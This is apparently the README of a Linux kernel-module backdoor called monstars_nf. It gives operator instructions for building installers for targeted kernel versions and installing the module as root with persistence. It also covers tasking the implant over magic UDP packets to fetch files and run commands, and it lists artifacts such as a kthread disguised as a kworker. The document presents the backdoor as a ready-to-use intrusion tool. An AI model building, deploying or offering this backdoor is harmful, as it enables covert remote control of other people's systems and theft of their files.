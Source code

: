 # monstars netfilter

**monstars_nf** is a linux backdoor intended to be compatible with a wide range of kernel versions.

Once installed, the kernel module installs a netfilter hook to listen for "magic" UDP packets from source port `31337`. When it receives such a packet, it spawns a usermode task handler to parse the command data, process any commands, and send the results back to the listening controller.

The backdoor does not listen on a port or maintain a consistent usermode process; for the most part, the only active component is the kernel-mode worker thread.


## Building an Installer

To build the installer, you will need kernel headers for the version of linux you want to target. Depending on your build environment, this may be challening to configure.

Once your build environment is set up, however, use the Python script `build_monstars.py` to build an installer specific to your target environment. The following attributes are configurable:
 - kernel object name
 - target kernel version
 - debugging output

The configured installer will be placed in the `./export/` directory, and will be named `go-monstars_<kernel version>`.

**$ python3 build_monstars.py**
```
usage: build_monstars.py [-h] [-d]
                         [-v {3.11.0-12-generic,3.13.0-24-generic,4.4.0-21-generic,4.15.0-20-generic,5.15.0-56-generic}]
                         [-k KO_NAME]

Build a monstars_nf installer binary

optional arguments:
  -h, --help            show this help message and exit
  -d, --debug           build components with debug symbols
  -v {3.11.0-12-generic,3.13.0-24-generic,4.4.0-21-generic,4.15.0-20-generic,5.15.0-56-generic}, --kernel-ver {3.11.0-12-generic,3.13.0-24-generic,4.4.0-21-generic,4.15.0-20-generic,5.15.0-56-generic}
                        linux kernel version to build against
  -k KO_NAME, --ko-name KO_NAME
                        name to use for the kernel netfilter module
```


## Running the Installer

The installer binary requires one commandline argument: the desired path to the usermode executable component.
```
# go-monstars /home/zathras/.ssh/monstars
```

The installer must be run with `root` permissions to successfully insert the kernel module.

Once **monstars_nf** is installed, the installer can be either cleaned up or added to some form of persistence mechanism to ensure the backdoor survives a system restart.


## Sending Commands

The Python script `call_monstars.py` is a CLI interface for sending commands to an installed backdoor. Pass `-h` to the command line for more information on each of the commands.

**$ python3 call_monstars.py**
```
usage: call_monstars.py [-h] -i IP [--dest-port DEST_PORT] {ping,get,exec} ...

send it!

positional arguments:
  {ping,get,exec}       [supported commands]
    ping                ping a target
    get                 retrieve a file
    exec                run a system command

optional arguments:
  -h, --help            show this help message and exit
  -i IP, --ip IP        IP address of host machine
  --dest-port DEST_PORT
                        destination port number
```


## Communications

When it receives a magic UDP packet, the backdoor sends its task result back to the sender on TCP port 8080.

The controller opens TCP port 8080 before sending the magic packet, and reports an error if no response is received after a short timeout.


## Artifacts

Once installed, the following artifacts are present on the system:
 - The userland task handler binary (name and path configurable)
 - The kernel module (name configurable) - it is out-of-band and therefore "taints" the kernel
 - The procfile `/proc/task`, which is used to send tasking data to the userland process from kernel mode
 - An active kthread named `kworker/l:1` (visible in `top`)
 - The installer binary (if left in place along with some means of persistence)
